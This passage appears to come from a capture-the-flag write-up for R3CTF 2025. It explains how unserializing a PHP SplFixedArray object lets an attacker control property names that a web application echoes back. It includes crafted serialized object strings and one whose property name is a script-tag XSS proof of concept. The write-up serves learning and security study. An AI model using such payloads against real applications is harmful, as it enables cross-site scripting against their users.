 TL;DR: When an `SplFixedArray` object is unserialized, the elements stored in the object's properties are moved into the internal fixed-size array of the object.

Does that sound familiar? It's basically setting the properties from **within the class**!

Since we can control the property name during deserialization, we can craft the following serialized object string:

```php
O:13:"SplFixedArray":1:{s:3:"foo";N;}
```

- `O:13:"SplFixedArray"`: An object named `SplFixedArray`, and its object name is `13` characters long
- `:1:`: The object has `1` property
- `{s:3:"foo";N;}`: Property `foo` is a string (`s`) and it is `3` characters long. The value of this property is `null` (`N`).

If we try to deserialize and dump it, we will see this structure:

```shell
php > var_dump(unserialize('O:13:"SplFixedArray":1:{s:3:"foo";N;}'));
[...]
object(SplFixedArray)#1 (1) {
  ["foo"]=>
  NULL
}
```

Now, what if we try to do the same thing in the web application?

![](https://github.com/siunam321/CTF-Writeups/blob/main/R3CTF-2025/images/Pasted%20image%2020250707140800.png)

Nice! It emitted the deprecation notice!

Let's change the property name into an XSS payload!

```php
O:13:"SplFixedArray":1:{s:39:"<script>alert(document.domain)</script>";N;}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/R3CTF-2025/images/Pasted%20image%2020250707140941.png)
